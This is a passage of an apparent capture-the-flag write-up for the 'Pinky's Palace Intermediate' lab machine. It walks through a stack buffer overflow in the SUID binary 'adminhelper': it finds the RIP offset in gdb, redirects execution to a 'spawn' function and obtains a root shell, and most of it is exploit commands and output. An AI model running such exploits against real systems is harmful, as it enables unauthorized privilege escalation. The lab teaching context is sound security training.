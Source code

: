 Then, I could find the offset in 72 bytes and overwrite the rip instruction with 6 B's (42 in hexadecimal).

```bash
(gdb) run $(python -c 'print("A"*72 + "B"*6)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/pinky/adminhelper $(python -c 'print("A"*72 + "B"*6)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
```

As we can verify, the rip instruction was controlled.

```bash
(gdb) info registers $rip
rip            0x424242424242   0x424242424242
```

Is time to disassemble the spawn function to locate its address.

```bash
(gdb) disas spawn
Dump of assembler code for function spawn:
   0x00005555555547d0 <+0>:     push   %rbp
   0x00005555555547d1 <+1>:     mov    %rsp,%rbp
   0x00005555555547d4 <+4>:     sub    $0x10,%rsp
   0x00005555555547d8 <+8>:     movl   $0x0,-0x4(%rbp)
   0x00005555555547df <+15>:    movl   $0x0,-0x8(%rbp)
   0x00005555555547e6 <+22>:    mov    -0x4(%rbp),%eax
   0x00005555555547e9 <+25>:    mov    %eax,%edi
   0x00005555555547eb <+27>:    callq  0x555555554680 <seteuid@plt>
   0x00005555555547f0 <+32>:    mov    -0x8(%rbp),%eax
   0x00005555555547f3 <+35>:    mov    %eax,%edi
   0x00005555555547f5 <+37>:    callq  0x555555554670 <setegid@plt>
   0x00005555555547fa <+42>:    mov    $0x0,%edx
   0x00005555555547ff <+47>:    mov    $0x0,%esi
   0x0000555555554804 <+52>:    lea    0xd9(%rip),%rdi        # 0x5555555548e4
   0x000055555555480b <+59>:    callq  0x555555554660 <execve@plt>
   0x0000555555554810 <+64>:    nop
   0x0000555555554811 <+65>:    leaveq 
   0x0000555555554812 <+66>:    retq   
End of assembler dump.
```

The address to add in the rip register is **0x00005555555547d0**, so I built the final instruction, assigning first with 71 A's, and the jump address to the spawn function in little endian.

```bash
pinky@pinkys-palace:~$ /home/pinky/adminhelper $(python -c 'print("A"*72 + "\xd0\x47\x55\x55\x55\x55")')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGUUUU
# whoami
root
# python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@pinkys-palace:/home/pinky# cd /root
root@pinkys-palace:/root# ls
root.txt
root@pinkys-palace:/root# cat root.txt 
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

```